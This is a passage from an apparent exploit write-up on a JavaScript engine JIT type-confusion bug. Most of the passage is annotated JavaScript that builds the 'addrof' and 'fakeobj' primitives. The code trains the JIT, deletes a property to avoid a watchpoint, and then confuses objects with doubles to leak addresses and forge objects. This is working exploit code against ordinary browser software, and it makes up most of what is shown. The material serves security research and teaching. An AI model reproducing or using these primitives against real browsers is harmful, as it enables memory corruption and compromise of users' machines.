 An annoted snippet of code implementing the two primitives `addrof` and `fakeobj` is given below. They are both really similar to the PoC from the previous section.

```javascript
// Array of doubles used to train the JIT engine.
var primitives_hax = [4.2];

/*
 * Property added to the object which will be deleted later on to trigger
 * the vulnerability and be able to change the object as desired without
 * triggering a watchpoint.
 */
primitives_hax.a = 10;

// Function getting a value.
function get_first_elmt() {
    return primitives_hax[0];
}

// Function setting a value.
function set_first_elmt(elmt) {
    return primitives_hax[0] = elmt;
}

print("[+]\tJIT compilation of get_first_elmt and set_first_elmt.");
for (var i = 0; i < 100000; i++) {
    get_first_elmt(); 		// Function JIT compiled to get a double value.
    set_first_elmt(4.2);	// Function JIT compiled to set a double value. 
}

/* 
 * Apply a previous structure to primitives_hax without transition to
 * make sure the watchpoint is not triggered.
 * Now it is possible to change the object without invalidating the
 * JIT compiled code.
 */
delete primitives_hax.a;

/* 
 * addrof primitive based on get_first_elmt. Since get_first_elmt is
 * JIT compiled to be used with double values, now that it's possible to
 * change the object without invalidating it, an object can be passed to
 * it (instead of a double) to retrieve its address (instead of the
 * double value stored).
 */
function addrof(o) {
    primitives_hax[0] = o;
    return Int64.fromDouble(get_first_elmt());
}

/* 
 * fakeobj primitive based on set_first_elmt. Since set_first_elmt is
 * JIT compiled to be used with double values, now that it's possible to
 * change the object without invalidating it, an object can be passed to
 * it (instead of a double) to set an object's address in memory (instead
 * of storing a double value).
 */
function fakeobj(addr) {
    set_first_elmt(addr.asDouble());
    return primitives_hax[0];
}
```
